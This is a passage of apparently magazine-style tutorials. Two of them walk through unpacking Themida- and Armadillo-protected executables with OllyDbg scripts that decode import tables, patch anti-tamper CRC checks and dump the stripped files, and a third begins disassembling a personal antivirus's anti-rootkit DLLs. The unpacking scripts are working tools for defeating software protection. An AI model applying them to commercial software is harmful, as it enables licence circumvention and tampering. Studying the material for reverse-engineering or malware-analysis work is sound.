我们重新加载程序，清除 F2 断点。在“脚本运行窗口中”加载刚才编写的脚本，在最后一行 F4 一下，然后 S（脚本单步运行）一次，就会被新的断点断下，之后回到如图 8 所示的代码窗口中，可看到被中断在重载的 kernel32.dll 中了。


图8

注意：为什么要这样写脚本呢？刚开始我们不知道壳的流程，所以就要手动跟踪调试。而不断地跟踪会出现错误或者跟飞的现象，所以要把以前的步骤用脚本来做，这样就能不断向前、向前，要不每次都重新来会很累人，而这正好是脚本的好处。

之后继续，不要删这个断点，我们来运行看看。不断按 Shift+F9，同时注意 EAX 的变化，发现每次都会出现如图 9 所示的结果，这是个写入数据断点。我们再看看产生中断的是哪个，如图 10 所示，提示是硬件中断 1。硬件中断 1 是地址 00401000，为代码段的首地址，这样看来是壳在恢复代码段中的代码了。F8 一次，到 code 段中看看，如图 11 所示，明显可以看出来是程序的代码被恢复了。


图11

就 Themida 这个壳来说，现在我们看到了恢复原程序的代码段代码，那么下面应该干什么呢？我想应该是恢复输入表了，而这个壳的特点之一就是对 kernel32.dll、user32.dll、advapi32.dll 三个模块中的函数进行加密，对代码中调用这三个模块中的 API 代码进行重定向。

要脱掉这个壳，需要做的就是恢复代码（调用的重定向代码），恢复 IAT，然后在程序的入口点停下。


图9


图10

思路：有了上面的这些，现在再想想壳应该走的流程，这也是一般脱壳的基本思路。壳要把原程序正确地运行起来，首先得有原程序的运行代码（现在的 VM 也不例外，只不过是把代码变形了）。第二，不能破坏原程序的运行环境，即要从原程序的入口开始运行，且堆栈不能被破坏。第三，遇到要调用 API 时能被正确地定向。

有了这个思路就好了，现在我们到恢复的代码段中找要被重定向的调用的地方。在 OD 的代码窗口中，按 Ctrl+G 填入代码段的基地址 401000，来到如图 12 所示的位置，向下看看会发现很多的 nop 代码，这些 nop 代码就是壳要重定向的地方。在其中的一个地方下内存写入中断，跟踪这个就可以到处理 IAT 的关键地方，如图 13 所示。


图12

为什么要找这个地方呢，因为这个看起来更像是个调用 API 的地方，其下是个比较是否成功的代码。在 4014DD 处下硬件内存写入断点，取消原来所有的断点，运行后得到如图 14 所示的结果。我们再到地址 4014DD 处看看，如图 15 所示。看到了什么？被写入 E8，而 E8 是什么？CALL 呀。由此推断到了关键之处。我们来分析一下这段代码。


图13


图14


图15

分析结果：这段处理 IAT 的代码是通过对 ESI 指向的一个解密表来还原。下面分析如图 16 所示的加密表，为了方便分析，我截取的是表的另外一段，跟踪分析发现：


图16

每个 API 解码是以 FFFFFFFFDDDDDDDD 结束，每个模块是以 AAAAAAAA 结束。每个 API 表组成是第一个 dword 解码出 API，第二个 dword 解码出 API 写入 IAT 表地址，第三个 dword 解码出代码中调用这个 API 的地址，后面如果不是结束符，表示这个 API 被另外地方调用。

思路：如果我们在读这个表的第一个 dword 处断下来就可以跟踪到处理的整个部分了。怎么在这个开始的地方断下呢？那就是时机——这个 ESI 被赋值的时候。

还是回到上面重定位的 VirtualAlloc 断点，保持这个断点，按 Ctrl+F9 注意 EAX 的变化，代码恢复之后，会依次出现如图 17、图 18、图 19、图 20 所示的结果。


图17


图18


图19


图20

看出来了吗，第四次是 kernel32.dll 的 PE 了，这可能是解 IAT 表了。那么，进入解码过程的最好一次应该是 EAX=026B0000 的这个了，此时看看是不是 ESI 被赋值的代码。我们运行到壳代码中，运行几步会到图 21 这里，ESI 被赋值，这个值指向的地址就是解码表的首地址。


图21

OK，到此我们就可以继续写脚本了。怎么定位呢？最后的 EAX 值是个变量，不同的程序会不同，脚本为了通用，必须找个不变的值，向上看看，其前两步如图 22 所示，是个不变的标记，可以利用它来写脚本。


图22

```text
gpa "GetProcAddress", "kernel32.dll"
mov getprocadd, $RESULT

// 取 GetProcAddress 函数地址，用于定位解密表
cmp getprocadd, 0
je stop

findflagloop: // 用个循环来比较 EAX 值
esto
cmp eip, tmpbp // 如果断点地址还是 VirtualAlloc，即是 code 段
jne getcodesize // 获取 code 块复制被恢复的长度，这个后面要用
cmp eax, getprocadd // 定位解码表出现的时机
je findflag
jmp findflagloop

getcodesize:
mov tmp, cbase
inc tmp
cmp tmp, edi
je getcodesizepatch
jmp findflagloop

getcodesizepatch:
asm
bphwc cbase // 取消断点
mov csize, ecx // ecx 是长度
log csize
jmp findflagloop
findflag: // 发现 EAX=GetProcAddress
esto
esto // 后面还有两次
bphwc tmpbp // 该取消这个断点的时候了
rtr // 返回到壳中
sti
find eip, #8BB5??????07# // 查找下面这个指令
// 005537D3 8B35 09354607 MOV ESI, DWORD PTR SS:[EBP+7463509]
mov tmpbp, $RESULT
cmp tmpbp, 0
je stop
bphws tmpbp, "x" // 在这个地址下硬件运行断点
esto
sto // 单步运行过上面代码
pause // 暂停着看效果
```

保存脚本，重新加载程序，运行脚本，暂停时会准确地来到 ESI 被赋值为解码表地址的地方。辛苦没有白费，脚本按我们的要求完成了任务。这时的解码表是完整的，只要跟踪这段代码就能恢复 IAT 表了。

进入解密代码如图 23 所示。  
传递参数如图 24 所示。  
第一个 dword 解码 API 的代码如图 25 所示。  
清解码表（EDX=0）如图 26 所示。  
结束符 EEEEEEEEDDDDDDDD 如图 27 和图 28 所示。  
解码算法如图 29 和图 30 所示。  
比较 Hash 值如图 31 所示。  
完成 API 解码如图 32 所示。  
比较解码出的 API 是否属于需要加密的模块如图 33、图 34、图 35 所示。  
再来看看第二个 dword 解码 IAT 表地址的地方，取值如图 36 所示。

注意：Themida 只会加密属于 kernel32、user32、advapi32 三个模块中的函数，其他的不加密。这是我们修复 IAT 的 magic jump 关键。知道了这点就可以修改这三个地方的比较跳转，nop 掉“sub ebx,ecx”下面的 JE 就能恢复 IAT 表了。

解码表清零如图 37 所示。  
解码算法如图 38、图 39、图 40 所示。到这里就解码出了正确的写入 IAT 表地址。  
第三个 dword 解码代码中调用 API 的地址如图 41 所示。  
解码表清零如图 42 所示。  
解码算法如图 43 和图 44 所示。  
到这里就解码出了代码中调用 API 的地址，如图 45 所示。  
比较模块结束标记如图 46 所示。之后在代码中写入 90，如图 47 所示。

注意：Themida 把代码中对 IAT 表的地址调用修改成了直接对 API 的调用，就是把 CALL 指令 FF15 修改为 E8 指令，这样原来的 6 个字节就变成了 5 个字节，多出来的一个字节用 90（nop）填充。比较可恶的是，它填充有时在代码前有时在代码后，这样就防止了直接修改壳的代码恢复调用地址。

填入 E8 指令如图 48 所示。  
填充加密后的 API 地址如图 49 所示。

到这里，解码的整个过程就算跟踪完成了，下面来看看怎么写恢复 IAT 表的脚本。

- 第一，要恢复 IAT 表。首先需要填充到 IAT 表中的 API 函数不能被加密，这个可以通过修改三个对模块比较的代码实现。
- 第二，获得 IAT 表的地址，后面用 ImportREC 修复 IAT 表使用。
- 第三，获得代码中调用 API 的第一个地址，用于后面修复调用代码。
- 第四，恢复代码中调用 API 的代码，这个由于 90 问题，目前修改壳的代码很难做到，我的想法是到 OEP 时再写代码恢复。

由此，我们可以编写出如下的脚本代码。

```text
var iatprocbegin
find esi, #00000000# // 查找解码表的结束地址
mov iatprocend, $RESULT
sub iatprocend, 04
log iatprocend
mov iatprocbegin, esi
// 这个地址后面要用，保存起来
bphws esi, "rw"
// 对解码表第一个 dword 下写入断点
esto
bphwcall // 取消原来所有的硬件断点
find eip, #2BD9# // 查找 sub ebx, ecx 指令
bphws $RESULT
esto
sti
log eax, "API:" // 记录 API
bphwcall
mov [eip], #9090909090# // 修改 JE 指令为 NOP
```

### 破解揭秘 SECRET OF CRACK

```asm
mov tmdanti195,eip
// 第一次修改指令地址记录下来，防校验要用到
find eip,#2BD9#
bphws $RESULT
esto
sti
bphwcall
mov [eip],#909090909090# // 修改第二个指令
find eip,#2BD9#
bphws $RESULT
esto
sti
bphwcall
mov [eip],#909090909090# // 修改第三个指令
mov temp,esi // 此时的ESI是第二个dword数据
bphws temp,"r"
esto
bphwcall
find eip,#0385????????# // 对下面代码下执行断点
// 00556B5D 0385 0D004607 ADD EAX,DWORD PTR SS:[EBP+7460000D]
bphws $RESULT,"x"
esto
sti
bphwcall
mov iattop,eax // 此时EAX是IAT表中函数写入地址，然后判断这个值最小时就是IAT基地址
log iattop,"EAX是IAT表中函数写入地址，然后判断这个值最小时就是IAT基地址"
mov iatlibbegin,esi
bphws iatlibbegin,"w"
esto
bphwcall
find eip,#0385# // 查找下面指令
// 00556CD3 0385 0D004607 ADD EAX,DWORD PTR SS:[EBP+7460000D]
bphws $RESULT,"x"
esto
sti
bphwcall
mov codeadd,eax
// 这个值就是第一个写入调用API地址的地方
log codeadd,"第一个调用API的地址"
bphws iatprocend,"w"
// 在解码表的结束地址下断
bphws tmdanti195,"r"
// 这是我们修改的第一个代码，存在CRC校验
esto
cmp iatprocend,esi
// 比较被中断时ESI是否为iatprocend
je tmd195end // 如果是说明没校验，直接到解码完成的逻辑脚本处
find eip,#3985????????0F84# // 校验代码查找
/*
由于这个test程序解码表太短，所以没有出现CRC校验，以下是别的程序的校验代码

005F57E5 3985 A11A7409 CMP DWORD PTR SS:[EBP+9741AA1],EAX
005F57EB 0F84 B8000000 JE 005F58A9
*/
mov temp,$RESULT
bphws temp,"x"
cmp temp,0
je iatpatch_195over
esto
bphwcall
sti
mov temp,eip
mov [temp],#90E9# // patch校验，修改为JMP
log temp
iatpatch_195over:
bphwcall
bphws iatprocend,"w"
esto
tmd195end:
pause
```

重新加载程序，运行这个脚本。从log中可以看到IAT表在地址00407008处，我们进去看看，没有加密的IAT如图50所示。

（十六进制内存转储表，含 Address 与 Hex Dump 多列，起始地址约为 00406FF8 到 004070E8）

图50

再到第一个调用API地址00401705处看看，可看到被填充了一个90，然后就是直接CALL API了。这样看来就达到我们脚本要完成的工作了。接着我们的脚本要完成的就是到伪OEP，因为Themida可能VM了OEP的几个代码语句。首先，到伪OEP的方法我们可以对代码段设置断点，比较中断后EIP是不是在代码段中就知道了是否到了伪OEP。脚本如下。

```asm
Bphwcall
Mov tmp,cbase
Add tmp,csize // 取代码的结束，这个可能不准
bpm cbase,csize
findvoeploop:  // 循环判断
esto
cmp tmp,eip
ja findvoep // eip小于结束地址就是VOEP
jmp findvoeploop
findvoep:
pause
```

重新加载程序，运行这个脚本，完成时地址00403897在代码段中，这个地址就是程序的伪OEP。到现在为止，脚本跑壳的流程已经完成了，下面是修复代码中调用API的时候了。

思路：现在代码中调用的方式被修改成直接CALL API了，我们要恢复成对IAT表的调用就需要修改直接CALL为对地址值的CALL，即E8恢复为FF15，API地址要修改为API在IAT表中的地址，之后要修正被填充的90。

方法：有了这个思路，我们直接就可以写代码恢复了。恢复E8为FF15很简单，只要找到这个E8后替换成FF15即可。90问题比较复杂，因为原代码中也可以存在90，这样就可能造成替换时地址错误。一般CALL后面应该没有NOP这个指令，根据这个基本可以确定恢复的地址。API间接调用的恢复也比较好办，因为CALL后面的这个API也同样在IAT表中，只不过CALL后面的是API的偏移地址。只要加上调用地址和调用代码长度就可以计算出原API的实际地址值，让这个值和IAT表中的API地址值比较，如果相同就把IAT表的地址替换掉API偏移地址就可以了。

这个过程也完全可以用脚本来完成，只是如果调用地址比较多，脚本的效率问题就出来了，所以我的方法是直接写出修复代码在OD中运行代码恢复，非常快。这个代码要找个地方运行，在什么地方好呢？还记得解码表会被0填充掉吗？说明这个地址里的内容不会再被用到了，是个废弃的空间，我们可以使用这个空间。另外，在修复代码之前我们要把参数传递给这个写的代码，一般使用寄存器来传递，比较方便。

```asm
// 取参数
bpmc
Find codeadd, #000000000000000000000000000000000000000000000000000000000000#
// 利用块对齐的特点，找code真正的结束地址
mov temp,$RESULT
sub temp,cbase
mov csize,temp // 代码段实际长度
var iatbegin // 查找IAT表基地址
var iatsize
mov iatbegin,iattop
findiatbeginloop:
sub iatbegin,04
cmp [iatbegin],0
je findiatbeginnext
jmp findiatbeginloop
findiatbeginnext:
sub iatbegin,04
cmp [iatbegin],0
je findiatbegin
jmp findiatbeginloop
findiatbegin:
add iatbegin,04 // 这个地址才是IAT表基地址
find iatbegin,#0000000000000000#
// 查找IAT表结束地址
mov temp,$RESULT
sub temp,iatbegin
mov iatsize,temp // IAT表长度
exec // 保存程序的环境，这样我们就可以使用寄存器了
pushad
pushfd
ende
// 传递参数给寄存器
mov ebp,cbase // 代码基地址
mov ebx,csize // 代码长度
mov esi,iatbegin // IAT表基地址
mov edi,iatsize // IAT表长度
// eax,ecx,edx用于计算
push eip
add iatprocbegin,010
mov eip,iatprocbegin
pause
```

好了，准备工作做好了，重新加载程序，运行这个脚本，完成后停在废弃的空间中，参数也传递了进来，我们可以写恢复代码了。

```asm
0054B502  MOV AL,BYTE PTR SS:[EBP]
0054B505  CMP AL,0E9 ; 取E9指令，这个软件没有，也写进来
0054B507  JE SHORT 0054B516
; 进入E9指令处理代码
0054B509  CMP AL,0E8 ; 取E8指令
0054B50B  JE SHORT 0054B516
; 进入E8指令处理代码，前面两个指令处理过程共用
0054B50D  INC EBP ; 不是就向下继续查找
0054B50E  DEC EBX ; 长度相应-1
0054B50F  CMP EBX,0 ; 比较是否完成
0054B512  JE SHORT 0054B57F ; 完成退出
0054B514  JMP SHORT 0054B502 ; 继续查找
0054B516  MOV ECX,EBP ; 进入处理过程
0054B518  INC ECX
0054B519  MOV EAX,DWORD PTR DS:[ECX]
0054B51B  CMP EAX,EDX ; call后面是偏移量
0054B51D  JB SHORT 0054B50D
0054B51F  XOR EAX,FFFFFFFF ; 负值处理
0054B522  CMP EAX,EDX
0054B524  JB SHORT 0054B50D
0054B526  MOV EAX,DWORD PTR DS:[ECX]
0054B528  ADD EAX,EBP ; 加调用地址
0054B52A  ADD EAX,5
0054B52D  PUSH EDI
0054B52E  PUSH ESI
0054B52F  MOV ECX,DWORD PTR DS:[ESI]
0054B531  CMP EAX,ECX ; 比较API值是否相同
0054B533  JE SHORT 0054B544
0054B535  ADD ESI,4
0054B538  SUB EDI,4
0054B53B  CMP EDI,0
0054B53E  JG SHORT 0054B52F
0054B540  POP ESI
0054B541  POP EDI
0054B542  JMP SHORT 0054B50D
0054B544  CMP BYTE PTR DS:[EBP-1],90
0054B549  JNZ SHORT 0054B565
0054B54B  MOV AL,BYTE PTR SS:[EBP]
0054B54E  CMP AL,0E9
0054B550  JE SHORT 0054B55D
0054B552  MOV WORD PTR SS:[EBP-1],15FF
0054B558  MOV DWORD PTR SS:[EBP+1],ESI
0054B55B  JMP SHORT 0054B540
0054B55D  MOV WORD PTR SS:[EBP-1],25FF
0054B563  JMP SHORT 0054B558
0054B565  MOV AL,BYTE PTR SS:[EBP]
...
0054B580  NOP

; 90后面的处理
0054B568  CMP AL,0E9
0054B56A  JE SHORT 0054B577
0054B56C  MOV WORD PTR SS:[EBP],15FF
0054B572  MOV DWORD PTR SS:[EBP+2],ESI
0054B575  JMP SHORT 0054B540
0054B577  MOV WORD PTR SS:[EBP],25FF
0054B57D  JMP SHORT 0054B572
0054B57F  NOP ; 完成
0054B580  NOP
```

把这段代码的二进制保存起来，并写入脚本中，让脚本自动完成。

```asm
mov [eip],#8A45003CE9740D3CE87409454B83...
...
mov temp,eip
add temp,076 // 计算代码的结束地址
bp temp // 运行到结束地址
esto
bc temp
pop eip // 恢复eip
bp eip
exec // 恢复环境
popfd
popad
ende
bc eip // 清除断点
eval "脚本完成，停在伪OEP地址，IAT表的基址:{iatbegin}，IAT表长度:{iatsize}。修复的文件保存在你的目录下"
msg $RESULT
eval "{tmpdir}{tmppn}_dump.exe"
// 修复的文件保存为文件名+_dump
dpe $RESULT,eip // dump文件
ret // 脚本结束
```

重新加载程序，用这个脚本运行，得到修复IAT和代码段数据的文件，再修复vmOEP和用ImportREC修复IAT，即可完成整个脱壳过程。当然，要想脚本兼容更多版本、vmOEP能自动修复是个复杂的过程，以后在高级脚本应用中，我们再继续详谈。

前置知识：汇编语言  
关键词：破解、Armadillo、汇编

## Armadillo5.00
##### 标准保护的简单脱法

文／图 浓咖啡

前段时间和我的朋友“老海”学习了Armadillo4.40保护壳的脱壳技巧，在2007年的第11期、第12期和2008年的第1期分享给了广大读者。这段时间又和我的朋友“千里之外”一起探讨了一下Armadillo5.XX保护壳的脱壳技巧，现在把心得体会再陆续分享给大家。

通过这段时间的揣摩，感觉Armadillo保护壳的保护体系可分为3个版本阶段，就是1.XX～2.XX版本、3.XX～4.XX版本和5.XX～目前版本这样3个阶段。其外观界面一直保持原样，在保护方式上也一直采用：进程模式分为单进程、双进程，综合保护模式分为输入表乱序、策略代码衔接、Nanomites处理程序等保护模式，其他设置同样可以进行Key和时间限制等设定。但是，各个版本阶段一直都保持着一条明晰的主线，那就是“加密壳”属性没有变，所使用的保护模式没有变；这就是它的“品牌”，它的“核心”。各个阶段版本变化的部分是外壳和内部“核心保护”的结合方式上，也就是俗称的“魔法跳”。另外，就是采用综合保护（就是多选项）后，对输入表（IAT）的位置重新以Armadillo壳代码进行排列，尤其是采用INT3（俗称的CC）后，会给脱壳工作带来不小的麻烦！

本文所用到的脱壳工具主要有：OD用于调试分析，PEiD或FI用于侦壳，Armadillo Find Protected V1.8汉化版（这是目前最新版本，可以侦测到5.XX版本信息），用于侦测Armadillo加壳软件保护系统的信息，LordPe用于Dump、进程查看和善后优化，ImportREC用于修复，PE Tools用于善后优化，Trial-Reset用于本地系统维护。

下面，我就用一个经过Armadillo5.00版本保护的程序，探讨一下它的具体脱壳方法。

### 准备工作：收集信息

先用PEiD侦测一下，由于我的PEiD插件没有更新，显示为“VC8->Microsoft Corporation *”，不要造成“VC8”的错觉啊！如图1所示。

之后用Armadillo Find Protected V1.8汉化版看看，可得到如下信息：目标为Armadillo保护，保护系统级别为〈专业版〉；〈所用到的保护模式有〉：屏蔽调试器；〈备份密钥设置〉：固定的备份密钥；〈目标程序压缩设置〉：较好/较慢的压缩方式；〈其它保护设置〉版本号：5.00 18 June 2007；共使用的时间00h 00m 02s 754ms。

现在运行一下目标程序，再运行LordPe查看进程，得知是双进程模式，如图2所示。到此，所有的基本信息已经收集完毕！

图1

## 用OD处理

将脱壳目标程序（课件.exe）载入到OD中，

```asm
7C80EA26 56                push esi
7C80EA27 0F84 66530300     je 7C843D93
7C80EA2D 64:A1 18000000    mov eax,dword ptr fs:[18]
7C80EA33 FF75 10           push dword ptr [ebp+10]
7C80EA36 8D80 F8000000     lea esi,dword ptr [eax+BF8]
7C80EA3C 8D45 F8           lea eax,dword ptr [ebp-8]
7C80EA3F 50                push eax
7C80EA40 FF15 8C10807C     call dword ptr [<&ntdll.RtlInitAnsiString>]
7C80EA46 6A 00             push 0
7C80EA48 8D45 F8           lea eax,dword ptr [ebp-8]
```

载入后停在这里：

```asm
004C6DC2 > E8 E3400000     call 004CAEAA
004C6DC7   E9 16FEFFFE     jmp 004C6BE2
004C6DCC   6A 0C           push 0C
004C6DCE   68 B0504F00     push 004F50B0
004C6DD3   E8 44150000     call 004C831C
004C6DD8   8B4D 08         mov ecx,dword ptr [ebp+8]
004C6DDB   33FF            xor edi,edi
004C6DDD   3BCF            cmp ecx,edi
004C6DDF   76 2E           jbe short 004C6E0F
004C6DE1   6A E0           push -20
004C6DE3   58              pop eax
004C6DE4   33D2            xor edx,edx
```

现在就已经转成单进程了，为OD接下来的工作打下了坚实的、必要的基础！接下来是躲避“魔法跳”，这次采用的方法和以前介绍的方法不同。下断点BP VirtualProtect，然后按组合键Shift+F9运行，OD会停在这里。

```asm
7C801AD0 > 8BFF            mov edi,edi
7C801AD2   55              push ebp
7C801AD3   8BEC            mov ebp,esp
7C801AD5   FF75 14         push dword ptr [ebp+14]
7C801AD8   FF75 10         push dword ptr [ebp+10]
7C801ADB   FF75 0C         push dword ptr [ebp+C]
7C801ADE   FF75 08         push dword ptr [ebp+8]
7C801AE1   6A FF           push -1
7C801AE3   E8 75FFFFFF     call VirtualProtectEx
7C801AE8   5D              pop ebp
7C801AE9   C2 1000         retn 10
```

看到了吧？和以前1.XX～2.XX、3.XX～4.XX版本的入口不一样了，所以PEiD才会报出“VC8”！下面我们开始脱壳！

因为采用的是标准模式保护，双进程运行，所以首先要做的就是转换成单进程。这次是借助脚本文件完成此项工作的，点击OD菜单栏“插件->ODbgScript->运行脚本->打开->Arm双变单.TXT”（找到你的脚本文件存放的位置哦！），OD会自动运行，弹出脚本运行窗口，如图3所示，点“确定”，再次弹出脚本运行窗口，再点“确定”后，运行“转单进程脚本”后的OD会自动停在这里。

```asm
0012F648 004B28F7 /CALL到VirtualProtect
0012F64C 00C51000 |Address = 00C51000
0012F650 0006C82C |Size = 6C82C (444460)
0012F654 00000040 |NewProtect = PAGE_EXECUTE_READWRITE
0012F658 0012F67C \pOldProtect = 0012F67C
```

图3

这时按组合键Shift+F9运行，要注意观察堆栈中的数据。第一次堆栈中的数据如下：经过N次后（我这里是5次），得到堆栈中的数据如下：

```asm
7C80EA1B > 8BFF            mov edi,edi
7C80EA1D   55              push ebp
7C80EA1E   8BEC            mov ebp,esp
7C80EA20   51              push ecx
7C80EA21   51              push ecx
7C80EA22   837D 10 00      cmp dword ptr [ebp+10],0
```

```asm
00129470 00C99946 /CALL到VirtualProtect
00129474 00401000 |Address = 课_件.00401000
00129478 0007E000 |Size = 7E000 (516096)
0012947C 00000004 |NewProtect = PAGE_READWRITE
00129480 0012C164 \pOldProtect = 0012C164
```

看到没有？“00129474 00401000 |Address = 课_件.00401000”，由堆栈中的数据得知，这里是返回时机的重要标志！此时取消断点，按组合键 Alt+F9 返回，在 OD 中来到这里：

```asm
00C99946 8B8D D0D5FFFF mov ecx,dword ptr [ebp-2A30]
...
00C9998B FF15 24E1CB00 call dword ptr [CBE124] ; kernel32.VirtualProtect
...
00C9999D 8B85 94ABFFFF mov eax,dword ptr [ebp+FFFFAB94]
```

现在，要做的事情是修改“魔法跳”，方法与以前 4.40 版的方法在形式上有所不同。按组合键 Ctrl+F 执行搜索命令，填入“PUSH 100”，在 OD 中来到这里：

```asm
00C526D0 55 push ebp ; 修改为RET
00C526D1 8BEC mov ebp,esp
...
00C526E6 68 00010000 push 100 ; 搜索到这里
00C526EB E8 264C0500 call 00CA7316
00C526F0 83C4 04 add esp,4
00C526F3 8945 E4 mov dword ptr [ebp-1C],eax
```

```asm
00C526F6 8B45 E4 mov eax,dword ptr [ebp-1C]
00C526F9 A3 00A6C000 mov dword ptr [CCA600],eax
```

此时，向上滚动一下，修改 00C526D0 的代码“push ebp”，将其修改为“RET”。这样处理后，就等于修改了俗称的“魔法跳”，这样就处理完了！方法不一样了吧！

之后是找 OEP。下断点 BP CreateThread，然后按组合键 Shift+F9 运行，在 OD 中来到这里：

```asm
7C810637 > 8BFF mov edi,edi ; 来到这里
7C810639 55 push ebp
...
7C810650 E8 D7FDFFFF call CreateRemoteThread
...
7C810656 C2 1800 retn 18
```

取消断点，按组合键 Alt+F9 执行返回，在 OD 中来到这里：

```asm
00C8364C 50 push eax
00C8364D FF15 84E2CB00 call dword ptr [CBE284] ; kernel32.CloseHandle
00C83653 5E pop esi
00C83654 5B pop ebx
00C83655 8BE5 mov esp,ebp
00C83657 5D pop ebp
00C83658 C3 retn
```

按 F8 键一直走，直到 OEP 标志的提示位置：

```asm
00C9F2B9 75 3E jnz short 00C9F2F9
00C9F2BB A1 04BBC000 mov eax,dword ptr [CCBB04]
00C9F2C0 8B0D 04BBC000 mov ecx,dword ptr [CCBB04]
...
00C9F2E4 51 push ecx
00C9F2E5 6A 00 push 0
00C9F2E7 8B55 08 mov edx,dword ptr [ebp+8]
00C9F2EA 8B42 0C mov eax,dword ptr [edx+C]
00C9F2ED 50 push eax
00C9F2EE 8B4D F4 mov ecx,dword ptr [ebp-C]
00C9F2F1 2B4D DC sub ecx,dword ptr [ebp-24]
00C9F2F4 FFD1 call ecx ; OEP的提示标志
...
00C9F2F6 8945 FC mov dword ptr [ebp-4],eax
00C9F2F9 8B45 FC mov eax,dword ptr [ebp-4]
00C9F2FC 5E pop esi
00C9F2FD 8BE5 mov esp,ebp
00C9F2FF 5D pop ebp
00C9F300 C3 retn
```

```asm
0047E9CB E8 1C4AFDFF call 004533EC
0047E9D0 E8 5F57F8FF call 00404134
0047E9D5 8D40 00 lea eax,dword ptr [eax]
0047E9D8 0000 add byte ptr [eax],al
```

在 00C9F2F4 处，按 F7 跟进就会到达 OEP 了！

到达 OEP 后，我们就可以脱壳了！

### 使用 LoadPE 脱壳

运行 LoadPE，找到“课件.EXE”进程，将其“完整转存”，立刻就会在你的原目录下生成一个“Dump.EXE”的脱壳文件！这样就算基本脱壳成功了，LoadPE 的工作也就结束了！

### 使用 ImportREC 修复

运行 ImportREC 工具，填入 OEP 的位置“7E990”，点自动搜索，再点“无效函数”，将所有的无效函数都 CUT 掉！“修复抓取”到“Dump.exe”上，会生成个“Dump_.exe”文件，运行一下修复后的文件。可以运行，这样整个脱壳工作就顺利完成了！

最后总结一下，这是 Armadillo 5.00 标准保护的简单脱法，虽然和以前讲的方法略有不同，但就其根本来讲，5.00 版的穿山甲保护和其上代 4.XX 版本没有发生实质上的变化（只是说标准保护方式哦），但在其中也确实增加了一些抗干扰的内容！

```asm
0047E990 55 push ebp ; OEP
0047E991 8BEC mov ebp,esp
0047E993 83C4 F0 add esp,-10
0047E996 B8 30E74700 mov eax,0047E730
0047E99B E8 A478F8FF call 00406244
0047E9A0 A1 BC024800 mov eax,dword ptr [4802BC]
0047E9A5 8B00 mov eax,dword ptr [eax]
0047E9A7 E8 A849FDFF call 00453354
...
```

前置知识：汇编语言  
关键词：破解、算法分析、汇编

### 初探国内某个人杀毒软件内部原理


文／寒云

无意中发现一款国内个人编写的杀毒软件，作者和我是同一个城市的。我的出生和生长的城市是一个有着古老历史的城市，在历史上是一座出了很多帝王的城市，因此我觉得这个个人杀毒软件的作者为自己的家乡又增添了几分辉煌。最近，我在网上找这个作者的一些相关信息，发现他还在“中国早期黑客”的列表当中，我对这个作者又多了几分崇敬。

既然是前辈，又是同乡，那我就得多向他学习学习了。因此，我便有了想看看其中几个模块的实现的方法，粗浅地分析了一下这个软件。为了保护软件的技术产权，其实分析完后，觉得也没什么需要保护的，并且对作者的“好感”已经掉进了“深渊”，不过为了尊重他人，我在文章中就叫它 KW 吧。

### SECRET OF CRACK

在分析之前，我们先看看 KW 的主要功能。该软件有检测查杀、扫描查杀、Anti Rootkits、Anti Inline Hook、进程防火墙……在这些功能中，我觉得 Anti Rootkits、Anti Inline Hook 和进程防火墙都是比较不错的，而且是时下较为流行的功能。我就对这几个部分进行简单的讨论吧。

Rootkits 是大家所熟悉的，由于 Rootkits 的隐蔽性和查杀难度大，就让我们先来看看 KW 的 Anti Rootkits 的功能实现吧。由于这个软件是用 VB 写的，因此这里使用 SmartCheck 来调试。用 SmartCheck 打开 KW，启动 KW，耐心等待 KW 的加载，因为是 VB 编写的，速度比较慢。全部启动好以后，在 KW 上打开 AntiRootkit，然后在 SmartCheck 的输出窗口中可看到如下内容：

```text
LOAD_DLL  base:02B00000  DetectKernel.dll
LOAD_DLL  base:02DA0000  RestoreSSDT.dll
```

从这两句可以看出 KW 加载了两个 DLL 文件，分别是 DetectKernel.dll 和 RestoreSSDT.dll。用 PEiD 查壳，发现没有壳，是用 VC6 编写的。从文件名看，第一个 DLL 是用来检测内核的，第二个 DLL 是用来恢复 SSDT 的。用 IDA 对这两个 DLL 进行反汇编。先看看 DetectKernel.dll 的反汇编关键代码。

```asm
.text:10001030 call sub_10001180
// 加载每个 NTDLL.DLL 的导出函数
.text:10001035 test al, al
.text:10001037 jnz short loc_10001053
// 加载成功就继续执行
......
.text:10001053 loc_10001053:
.text:10001053 jmp loc_10001060
......
.text:1000106B push eax
// 函数调用完成后返回的字符串数
.text:1000106C lea ecx, [esp+18h+var_C]
.text:10001070 push esi
// 分配的缓冲区的参数
.text:10001071 push ecx  // 缓冲区地址
.text:10001072 push 0Bh
// SystemModuleInformation，得到加载驱动列表
.text:1000107C call dword_10005460
```

```asm
// 第一次调用 ZwQuerySystemInformation
.text:10001082 mov edx, [esp+24h+var_1C]
.text:10001086 push 1
.text:10001088 push edx
.text:10001089 call _calloc
// 开辟一块内存当作缓冲区
.text:1000108E add esp, 8
.text:10001091 mov edi, eax
.text:10001093 cmp edi, esi
.text:10001095 push esi
.text:10001096 jnz short loc_100010B1
......
.text:100010B1 loc_100010B1:
.text:100010B1 mov eax, [esp+28h+var_1C]
.text:100010B5 push eax
.text:100010B6 push edi
.text:100010B7 push 0Bh
.text:100010B9 call dword_10005460
// 第二次调用 ZwQuerySystemInformation
.text:100010BF test eax, eax
.text:100010C1 jge short loc_100010E6
......
.text:100010E6 loc_100010E6:
.text:100010E6 mov eax, [edi]
.text:100010E8 mov [esp+34h+var_24], esi
.text:100010EC cmp eax, esi
.text:100010EE mov [esp+34h+var_2C], eax
.text:100010F2 jbe short loc_10001166
......
.text:100010F4 push ebx
.text:100010F5 push ebp
.text:100010F6 xor ebx, ebx
.text:100010F8 lea ebp, [edi+1Eh]
......
.text:100010FB loc_100010FB:
.text:100010FB xor ecx, ecx
.text:100010FD mov cx, [ebp+0]
.text:10001101 add ecx, ebx
.text:10001103 lea eax, [ecx+edi+20h]
.text:10001107 push eax
.text:10001108 call sub_10001000
......
.text:1000110F push offset s_Ntkrnlpa_exe ; "NTKRNLPA.EXE"
// 查找 NTKRNLPA.EXE
.text:10001114 push esi
.text:10001115 call _strstr
```

现。反汇编的代码如下。

```asm
.text:1000111D test eax, eax
.text:1000111F jz short loc_10001129
.text:10001121 mov [esp+3Ch+var_28], 2
...
.text:10001129 loc_10001129: ; CODE XREF: KernelType+EF224j
.text:10001129 push offset s_Ntoskrnl_exe ; "NTOSKRNL.EXE"
// 在找 NTOSKRNL.EXE
.text:1000112E push esi ; char *
.text:1000112F call _strstr
.text:100011D1 loc_100011D1: ; CODE XREF: sub_10001180+35224j
.text:100011D1 push edi
.text:100011D2 mov edi, ds:GetProcAddress
